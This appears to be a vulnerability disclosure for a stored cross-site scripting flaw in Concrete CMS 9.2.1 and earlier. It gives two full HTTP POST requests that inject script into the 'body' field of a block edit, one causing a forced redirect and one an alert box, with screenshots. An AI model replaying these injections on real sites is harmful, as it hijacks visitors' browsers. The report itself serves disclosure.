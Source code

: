 BUG_Author:
LJWIIE

Affected version:
Concrete CMS

Vendor:
https://www.concretecms.org/

Software:

https://www.concretecms.org/download

https://github.com/concretecms/concretecms/releases/tag/9.2.1

Vulnerability File:
index.php/ccm/system/dialogs/block/edit.php, function submit()

Description:

In Concrete CMS versions 9.2.1 and earlier, authenticated users can execute Stored Cross-Site Scripting (XSS) attacks via the "body" parameter in the "Edit Feature Link" function. This may lead to harmful actions such as redirects, unwanted ads, and executing malicious HTML code, posing risks to visitors and the site's integrity.

Status: Medium

POST parameter 'body' contains a Stored Cross-Site Scripting (XSS) vulnerability

[Redirect to Google official website]Payload1:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1952
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script type="text/javascript">
        window.onload = function() {
            window.location.href = 'https://www.google.com';
        };
</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/c20eeb0d-78a7-4f65-a48a-c0e81469355e)

After editing and saving, anyone who visits this page will be forced to go to the Google website.

![RedirectToGoogle](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/3d2ed4e1-abec-4053-8166-5bdf198de7bd)

[Display alert window]Payload2:

```html
POST /concretecms/index.php/ccm/system/dialogs/block/edit/submit?ccm_token=1695391704:f08febc0b74c604e3155a7c1dae52c5b&cID=1&arHandle=Main+%3A+3+%3A+Column+2&bID=1659 HTTP/1.1
Host: 192.168.157.135
Content-Length: 1831
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTHazfOhCNYBmeP8N
Origin: http://192.168.157.135
Referer: http://192.168.157.135/concretecms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: CONCRETE=tpv8secu9t64ob26vf7ci5mlar; CONCRETE_LOGIN=1
Connection: close

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="title"

Leverage agile frameworks to provide a robust synopsis
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="titleFormat"

h2
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="body"

<p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas varius tortor nibh, sit amet tempor nibh finibus et. Aenean eu enim justo.</p>
<script>alert("You have been hacked!")</script><p>

------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="fID"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonText"

Learn More
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonSize"

lg
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonStyle"

outline
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="buttonColor"

primary
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="icon"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink__which"

none
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_page"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_file"

0
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="imageLink_external_url"


------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="ccm-edit-block-submit"

submit
------WebKitFormBoundaryTHazfOhCNYBmeP8N
Content-Disposition: form-data; name="__ccm_consider_request_as_xhr"

1
------WebKitFormBoundaryTHazfOhCNYBmeP8N--
```
![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/8eb05aa6-b84c-4839-994f-78b318a3e324)

![image](https://github.com/IIE-Safety/StoredXSS_BODY/assets/65028436/aa0a61ad-c1c2-4903-8019-a1fa9a4f060c)



![image-20230922222030311](C:\Users\ljw\AppData\Roaming\Typora\typora-user-images\image-20230922222030311.png)



